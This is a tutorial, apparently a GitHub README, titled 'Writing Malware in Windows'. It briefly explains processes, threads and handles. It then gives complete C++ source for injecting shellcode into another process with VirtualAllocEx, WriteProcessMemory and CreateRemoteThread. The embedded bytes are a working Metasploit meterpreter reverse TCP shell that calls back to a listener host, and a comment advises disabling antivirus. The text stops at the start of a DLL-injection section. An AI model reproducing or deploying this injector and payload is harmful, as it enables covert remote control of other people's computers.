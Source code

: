 # Writing Malware in Windows

## 1. Introduction

To write malware in windows you will need some basic knowledge of Processes, Threads and Handle.

### 1.1 Process

**A Process** is a isolated memory structure which supports an Application in the OS.
A Windows Process is executed by 1 or more **Threads**.

The OS, more specifically the **Scheduler** decides how much CPU time to allocate for each process.
That is controlled by the **Priority** of the process.

### 1.2 Thread

**A Thread** is a stream of sequential machine-code instructions that a process executes.
Threads are a component of a Process and access the same memory when they are in the same Process.
Processes may speed up its operation by using multiple threads, each performing an isolated task by running their
instructions through a different CPU Execution Unit.

### 1.3 Handle

**A Handle** is a kind of identifier for Processes/Threads. With the handle you can
perform different kind of actions like killing the Process or Reading and Writing in foreign Process memory.

Handles are consistent over the whole Operating System, so you can share Handles over different processes.

## 2. Shellcode Injection

In the shellcode Injection we want to inject machine-code into the Process.
It is important that we use the right shellcode for the injection.
For 64-bit Windows Systems, we have to use x64 machine-code.

```cpp
#include <iostream>
#include <windows.h>

// Define the variables for later use.
DWORD pid;
HANDLE hThread, hProcess;
LPVOID rBuffer;


// This is the shellcode we are injecting.
// It is a basic meterpreter reverse tcp shell, generated by metasploit.
// Note: It will get detected by antivirus, so disable AV.
const char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31\xc9\x48\x0f"
"\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x8b\x48\x18\x44\x8b\x40\x20\x50\x49"
"\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x00\x02\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0c\x49\xff\xce\x75\xe5\x68\xf0\xb5\xa2\x56"
"\xff\xd5\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04"
"\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x48"
"\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00"
"\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53"
"\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89"
"\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff"
"\xd5\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xe1\x41\xff"
"\xe7";


// Main function that executes first.
int main(int argc, char** argv)
{
    // Here I check if a argument is provided. If not the program exits.
	if (argc < 2) {
		std::cerr << "(-) No process specified" << std::endl;
		std::cerr << "Excpected: program.exe <pid>" << std::endl;
		return EXIT_FAILURE;
	}

    // Converting the arguent to unsigned long.
	pid = std::strtoul(argv[1], NULL, 10);

	std::cout << "(+) Attempting to get handle" << std::endl;

    // Open Process handle
	hProcess = OpenProcess(
        PROCESS_ALL_ACCESS,         // DWORD    dwDesiredAccess,    The access rights that are requested
        FALSE,                      // BOOL     bInheritModule,     If this is true, processes that are created by this process will inherit the module.
        pid                         // DWORD    dwProcessId,        The Process ID of the process that should be opened
    );

    // Here I check if the handle is sucessfully returned
	if (!hProcess) {
		std::cerr << "(-) Could not open process, error: " << GetLastError() << std::endl;
		return EXIT_FAILURE;
	}
	std::cout << "(+) Got Proccess Handle, yay" << std::endl;

    // Allocate Memory in other Process
	rBuffer = VirtualAllocEx(
		hProcess,                   // HANDLE   hProcess            Handle to the target Process
		NULL,                       // LPVOID   lpAddress           Starting address of the region of pages, when NULL let function itself decide
		sizeof(shellcode),          // SIZE_T   dwSize              Size of region of memory to allocate
		MEM_COMMIT | MEM_RESERVE,   // DWORD    ftAllocationtype    Type of memory allocation. MEM_COMMIT and MEM_RESERVE the memory initially
		PAGE_EXECUTE_READWRITE      // DWORD    flProtect           Memory Protection constraints of the allocated memory
	);

	if (!rBuffer) {
		std::cerr << "(-) Could not allocate virtual memory, error: " << GetLastError() << std::endl;
		return EXIT_FAILURE;
    }

	std::cout << "(+) Allocated " << sizeof(shellcode) << " bytes of virtual memory with PAGE_EXECUTE_READWRITE Permissions" << std::endl;
	std::cout << "(+) Writing payload into process" << std::endl;

	WriteProcessMemory(
        hProcess,                   // HANDLE   hProcess            Handle to the target Process
        rBuffer,                    // LPVOID   lpBaseAddress       Pointer to base address in the target Process where the data is written to.
        shellcode,                  // LPCVOID  lpBuffer            Pointer to the data that is written to the target Process
        sizeof(shellcode),          // SIZE_T   nSize               Number of bytes that is written to the target process.
        NULL                        // SIZE_T   lpNumberofBytes     Output: Resulting number of bytes that got written.
    );

    // Create Remote Thread to execute loaded shellcode
	hThread = CreateRemoteThread(
		hProcess,                       // HANDLE                   hProcess            Handle to the target Process
		NULL,                           // LPSECURITY_ATTRIBUTES    lpThreadAttributes  A pointer to the security attributes of the new thread, if NULL default security gets used.
		0,                              // SIZE_T                   dwStackSize         Stack size of the new thread, if 0 default size gets used.
		(LPTHREAD_START_ROUTINE)rBuffer,// LPTHREAD_START_ROUTINE   lpStartAddress      Pointer to the start address of the thread.
		NULL,                           // LPVOID                   lpParamter          Variable to be passed into the thread function, not used here
		0,                              // DWORD                    dwCreationFlags     The flags to control the creation of the thread, here the thread just starts after calling the function.
		NULL                            // LPWORD                   lpThreadId          Output: A pointer to a variable that reiceives the thread identifier.
	);

    // Here I check if the Thread got successfully created.
	if (!hThread) {
		std::cerr << "Failed to get handle to the thread, error: " << GetLastError() << std::endl;
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	std::cout << "Got the handle thread: " << hThread << std::endl;

    // Waiting until the thread stops
	WaitForSingleObject(hThread, INFINITE);

    // Cleaning up
	CloseHandle(hThread);
	CloseHandle(hProcess);

	return EXIT_SUCCESS;
}
```

## 3. DDL Injection

### 3.1 Introduction to DLLs
After injecting shellcode, I want to introduce you to dll injection.




